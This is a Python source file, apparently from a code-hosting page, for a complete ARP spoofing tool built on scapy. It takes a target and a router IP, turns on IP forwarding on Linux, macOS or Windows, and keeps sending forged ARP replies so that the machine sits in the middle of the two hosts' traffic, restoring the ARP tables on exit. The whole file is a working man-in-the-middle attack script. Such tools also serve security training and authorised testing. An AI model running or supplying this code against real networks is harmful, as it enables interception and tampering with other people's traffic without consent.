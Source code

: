 import scapy.all as scapy
import argparse as arg
import sys, os, time
import subprocess as sub

def get_arguments():
    """Get arguments from the command line"""
    parser = arg.ArgumentParser()
    parser.add_argument('-t', '--target', dest='target', help='The target IP Address')
    parser.add_argument('-r', '--router', dest='router', help='The router IP Address')
    options = parser.parse_args()
    if not options.target:
        options = None
    return options

def arp_spoofer(targetIP, routerIP):
    """Spoof the specified Target and Router"""
    sent_packets_counter = 0
    target_MAC = str(get_mac_address(targetIP))
    router_MAC = str(get_mac_address(routerIP)) 
    ip_forward_status(1)
    try:
        while True:
            spoof(targetIP, target_MAC, routerIP, router_MAC)
            sent_packets_counter += 1
            print_counter(sent_packets_counter)
            time.sleep(2)
    except KeyboardInterrupt:
        keyboard_interrupt_handler(targetIP, target_MAC, routerIP, router_MAC)

def spoof(targetIP, targetMAC, routerIP, routerMAC):
    """Send the spoofed packets"""
    packet_to_router = scapy.ARP(op=2, pdst=routerIP, hwdst=routerMAC, psrc=targetIP)
    packet_to_target = scapy.ARP(op=2, pdst=targetIP, hwdst=targetMAC, psrc=routerIP)
    scapy.send(packet_to_router, verbose=False)
    scapy.send(packet_to_target, verbose=False)

def restore(targetIP, targetMAC, routerIP, routerMAC):
    """Restore the network"""
    packet_to_router = scapy.ARP(op=2, pdst=routerIP, hwdst=routerMAC, psrc=targetIP, hwsrc=targetMAC)
    packet_to_target = scapy.ARP(op=2, pdst=targetIP, hwdst=targetMAC, psrc=routerIP, hwsrc=routerMAC)
    scapy.send(packet_to_router, count = 4, verbose=False)
    scapy.send(packet_to_target, count = 4, verbose=False)

def keyboard_interrupt_handler(targetIP, targetMAC, routerIP, routerMAC):
    """Handle the Keyboard Interrupt"""
    print("\n\n[!!] Detected CTRL + C. Closing ARP Spoofer...")
    print("\t[+] Restoring ARP Tables, waiting...")
    restore(targetIP, targetMAC, routerIP, routerMAC)
    print("\t[+] Disable IP forwarding, waiting...")
    ip_forward_status(0)
    print("\t[+] Restore Complete, quitting!")

def get_mac_address(ip):
    """Get the MAC address of the specified IP"""
    broadcast_layer = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
    arp_layer = scapy.ARP(pdst=ip)
    get_mac_packet = broadcast_layer/arp_layer
    answered_list = scapy.srp(get_mac_packet, timeout=2, verbose=False)[0]
    return answered_list[0][1].hwsrc

def ip_forward_status(status):
    if sys.platform.lower() in ['linux','linux2','darwin']:
        os.system(f'echo {str(status)} > /proc/sys/net/ipv4/ip_forward')
    elif sys.platform.lower() in ['windows', 'win32', 'win64']:
        ip_forwarding_Windows(status)

def ip_forwarding_Windows(status):
    """Enable/Disable IP forwarding for all interfaces in Windows 10"""
    interfaces = get_windows_interfaces()
    for interface in interfaces:
        if status == 1:
            sub.call(f'netsh interface ipv4 set interface {interface} forwarding="enabled"', shell=True, stdout=open(os.devnull, 'wb'))
        else:
            sub.call(f'netsh interface ipv4 set interface {interface} forwarding="disabled"', shell=True, stdout=open(os.devnull, 'wb'))
    
def get_windows_interfaces():
    """Get the list of all the IPv4 Windows interfaces"""
    interfaces = os.popen('netsh interface ipv4 show interfaces').read().strip().strip('\r')
    interfaces = interfaces.split('\n')
    interfaces.pop(0)
    interfaces.pop(0)
    list_interfaces = []
    for line in interfaces:
        list_interfaces.append(line.strip().split(' ')[0])
    return list_interfaces

def print_counter(counter):
    print(f'\r[+] Packets sent: {str(counter)}', end="")  # PYTHON 3 Dynamic print
    sys.stdout.flush()        



if __name__ == '__main__':
    optionsValues = get_arguments()
    if optionsValues:
        target_IP = str(optionsValues.target)
        router_IP = str(optionsValues.router)
        arp_spoofer(target_IP, router_IP)
    else:
        target_IP = input('[>] Target IP Address: ')
        router_IP = input('[>] Router IP Address: ')
        arp_spoofer(target_IP, router_IP)
